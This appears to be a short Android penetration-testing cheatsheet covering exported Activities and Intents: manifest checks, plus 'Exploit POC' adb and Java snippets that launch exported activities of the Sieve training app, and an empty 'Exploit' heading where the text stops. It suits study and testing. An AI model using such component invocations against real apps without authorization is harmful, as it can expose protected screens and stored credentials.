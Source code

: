 # Android Application Components Security Cheatsheet

## **Activities**

**Definition**:\
Activities define screens with which users can interact. They can be exported using `android:exported="true"` or implicitly via `intent-filters`.

**Testing**:

1. Check `AndroidManifest.xml` for `android:exported="true"`.
2. Look for `intent-filters` indicating implicit export.
3. Search for sensitive actions or data handled by the activity.

*   Example **AndroidManifest.xml**:

    ```xml
    <activity android:exported="true" android:name=".FileSelectActivity" />
    ```

**Exploit POC**:

1.  **ADB Commands**:

    ```bash
    am start -n <package>/<activity-name>
    am start -n com.mwr.example.sieve/.FileSelectActivity
    ```
2.  **Java Code**:

    ```java
    Intent intent = new Intent();
    intent.setComponent(new ComponentName("com.mwr.example.sieve", ".PWList"));
    startActivity(intent);
    ```

***

## Intents

**Definition**:&#x20;

Intents are messages used to request an action from another app component, such as starting an activity, service, or broadcasting a message. Vulnerabilities arise when exported components handle malicious or unvalidated intents.

**Testing**:

1. Review `AndroidManifest.xml` for exported components with intent-filters.
   * Check for `android:exported="true"`.
   * Look for `<intent-filter>` entries specifying `action` or `category`.
2. Search for intent-handling code using `Intent intent = getIntent()`.
3. Verify whether the component validates the received intent's data or extras.

**Exploit:**
